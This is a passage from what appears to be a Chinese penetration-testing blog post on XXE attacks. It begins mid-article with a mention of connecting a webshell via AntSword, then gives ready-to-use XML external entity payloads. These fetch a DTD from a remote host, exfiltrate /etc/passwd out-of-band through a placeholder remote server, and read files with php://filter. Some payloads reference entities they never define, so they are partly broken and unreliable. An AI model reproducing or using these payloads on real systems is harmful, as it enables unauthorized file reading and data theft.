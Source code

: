     最后，借助蚁剑连接即可。

![](https://gitee.com/fuli009/images/raw/master/public/20230714181321.png)

 **    0X04 ** **引入外部实体 dtd命令**

    使用如下类似Payload获取系统敏感文件

  *   *   *   *   *   *   *   *   *   * 

    
    
    <?xml version="1.0" ?><!DOCTYPE test [    <!ENTITY % file SYSTEM "http://127.0.0.1:8080/xml.dtd">    %file;]><x>&xxe;</x>  
    xml.dtd:<!ENTITY send SYSTEM "file:///etc/passwd">  
    

 **    0X05 ** **无回显–读取文件**

    直接使用如下类似Payload获取敏感信息

  *   *   *   *   *   *   * 

    
    
    <?xml version="1.0"?><!DOCTYPE test [    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">    <!ENTITY % dtd SYSTEM "http://远程:8081/test.dtd">    %dtd;    %xxe;]>

 **    0X06 ** **协议-读文件（绕过）**

    直接使用如下类似Payload获取敏感信息

  *   *   * 

    
    
    <?xml version = "1.0"?>    <!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]><x>&xxe;</x>

![](https://gitee.com/fuli009/images/raw/master/public/20230714181322.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714181323.png)![]()![](https://gitee.com/fuli009/images/raw/master/public/20230714181324.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714181317.png)

如果喜欢，敬请关注哦，后期更精彩！

![]()![](https://gitee.com/fuli009/images/raw/master/public/20230714181326.png)
![](https://gitee.com/fuli009/images/raw/master/public/20230714181327.png)

往 期 推 荐 ·值 得 细 看

[

2023全网最优渗透研学靶场汇总（上）

2023-02-23

![](https://gitee.com/fuli009/images/raw/master/public/20230714181328.png)
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247487135&idx=1&sn=c9b74b1fb501a3909fff462ca4ec1a4e&chksm=c0ca3c88f7bdb59e524544c1f0b8c3079956352417940311e7ac8f30a09b1ad7fb9c6a59da9f&scene=21#wechat_redirect)[
